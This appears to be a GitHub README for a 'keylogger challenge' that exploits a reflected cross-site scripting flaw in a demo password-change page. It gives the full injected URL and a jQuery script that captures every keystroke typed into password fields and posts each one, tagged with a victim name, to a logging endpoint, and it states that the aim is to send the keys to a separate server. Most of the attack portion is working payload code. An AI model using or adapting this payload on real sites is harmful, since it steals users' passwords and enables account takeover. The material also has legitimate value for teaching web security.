 
# Keylogger Challenge


### The objective of this challenge:
- Inject a script that saves every character that is typed into a password input


## How it works

- profile.html is a demo page that lets a user change their password by entering a new password and confirming it

- There is a get request with a username variable. The variable data is displayed in an invisible div

- The original url looks like this:
```
http://localhost/keylogger/profile.html?username=tal

```

- The page is vulnerable to an injection.

- The below script is injected into the page via the get request

- The url with the injected script looks like this:

```
http://localhost/keylogger/profile.html?username=<script>result="";$(":password").keypress(function(e) {result=String.fromCharCode(e.which);$.post('http://localhost/keylogger/keylogger.php',{"logged_key":result,"victim":"test-victim"}, function(data){});});</script>
```

- The script does the following:

- Every time the user types a character into any password input the character is saved in a log file. (key_logger.log)

- The log shows the character entered and the victims name (or whatever you choose in the script)

- For the purpose of this demo, the log file is on the same localhost, but the objective is to save the characters in the log file on a different server

```javascript
<script>
    result="";
    $(":password").keypress(function(e) {
        result=String.fromCharCode(e.which);
        $.post('http://localhost/keylogger/keylogger.php',{"logged_key":result,"victim":"test-victim"}, function(data){});
    });
</script>
```

## Author
This keylogger was created by Tal Sperling
- talaksu@gmail.com
